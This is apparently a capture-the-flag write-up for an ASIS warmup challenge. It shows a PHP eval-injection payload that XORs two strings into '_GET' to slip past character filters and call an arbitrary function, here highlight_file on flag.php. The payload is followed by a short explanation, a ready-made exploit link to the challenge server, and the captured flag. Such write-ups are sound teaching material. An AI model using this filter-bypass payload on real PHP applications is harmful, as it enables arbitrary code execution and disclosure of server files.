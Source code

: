 **Challenge:** http://69.90.132.196:5003/?view-source

Payload: <code>$_="`{{{"^"?<>/";${$_}[_](${$_}[__]);&_=highlight_file&__=flag.php</code>

Explaining:
  - <code>$_="`{{{"^"?<>/";</code> | Result of xor operation: <code>$_ = "_GET"</code>
  - <code>${$_}[_](${$_}[__]);</code> | <code>$_GET[_]($_GET[__])</code>
  - Setting the parameters, eval function will be: <code>eval(highlight_file('flag.php'))</code>

**<a href="http://69.90.132.196:5003/?warmup=$_=%22`{{{%22^%22?%3C%3E/%22;${$_}[_](${$_}[__]);&_=highlight_file&__=flag.php" >Get the flag</a>**

**Flag**: ASIS{w4rm_up_y0ur_br4in}
